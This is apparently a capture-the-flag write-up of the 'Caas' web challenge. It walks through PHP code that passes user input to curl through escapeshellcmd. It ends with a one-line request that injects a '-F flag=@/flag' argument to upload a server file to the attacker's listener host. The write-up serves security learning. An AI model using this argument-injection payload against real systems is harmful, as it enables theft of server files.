 ```yaml
---
title: Caas
date: 2021-04-25 12:52:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


Looking at the name of the challenge, I suspect it has something to do with Curl. Which could be vulnerable to command injection. However, let's check the source code before making any assumption. (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/caas_web.png#center)

## Vulnerability
Let's take a look at `CurlController.php`:

```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```

It takes the ip from the body without any sanitization and passes it to the `CommandModel.php`, so let’s check what it does:

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

We can’t inject arbitrary commands to this because of the [escapeshellcmd](https://www.php.net/manual/en/function.escapeshellcmd.php) function but we can add arbitrary parameters. Looking at the [curl manual pages](https://curl.se/docs/manpage.html) I quickly found the -F option to exfiltrate a file. There is also this [cheatsheet](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl) which shows how you can bypass the escapeshellcmd function.

## Exploitation
With that information, we can simply request the flag and send the request to our host machine. We can send the following command after setting up a nc listener on port 6666:

```bash
curl -d "ip=-F flag=@/flag http://[MY-IP]:6666/" http://[DOCKER-IP]/api/curl
```

We receive the flag:

> CHTB{f1le_r3trieval_4s_a_s3rv1ce

٩(◕‿◕｡)۶